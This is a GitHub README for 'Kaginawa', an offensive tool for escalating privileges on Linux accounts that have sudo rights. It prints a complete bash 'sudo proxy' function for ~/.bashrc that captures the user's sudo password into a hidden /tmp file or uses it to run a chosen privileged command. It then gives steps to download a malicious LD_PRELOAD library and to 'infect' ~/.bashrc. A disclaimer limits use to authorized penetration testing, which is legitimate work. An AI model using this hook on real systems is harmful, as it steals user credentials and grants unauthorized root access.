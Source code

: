 # Kaginawa

A hook for helping privilege escalation

## Scenario

You have code execution in a linux account with sudo privileges, but cannot find a privilege escalation exploit.

A common technique in this case is creating a "sudo proxy", which is basically a function that wraps the sudo command to capture the user's credentials or execute a privileged action.

For example, the following function can be appended to the ~/.bashrc:

```bash
REAL_SUDO=$(which sudo)
ACTION=""

sudo() {
  for ((i=0; i<3; i++)); do
    echo -n "[sudo] password for $USER: "
    read -s user_pass
    echo ""

    # Validate password
    echo "$user_pass" | $REAL_SUDO -S -v >/dev/null 2>&1
    if [ $? -ne 0 ]; then
      echo "Sorry, try again."
    else
      # Run ACTION if defined
      if [ -n "$ACTION" ]; then
        echo "$user_pass" | $REAL_SUDO -S "$ACTION" >/dev/null 2>&1 &
      else
        echo "$user_pass" >> /tmp/.X1027-lock
      fi

      # Run original command
      echo "$user_pass" | $REAL_SUDO -S -- "$@"
      break
    fi
  done
}
```

The same attack can be performed using LD_PRELOAD hooks. Kaginawa hooks Bash's execve wrapper and runs a custom command stored in "fake_argv".

- First Step: Drop kaginawa into target system. For example:

```bash
wget https://example.com/kaginawa.so
```

- Second Step: Infect ~/.bashrc

```bash
echo 'LD_PRELOAD=/full/path/to/kaginawa.so bash' >> ~/.bashrc
```

- Third Step: Patience

## Disclaimer

This tool was developed for authorized adversary simulations and penetration testing in controlled environments. 
It is intended for use only on systems you own or have explicit permission to test. 
Use responsibly and at your own risk.
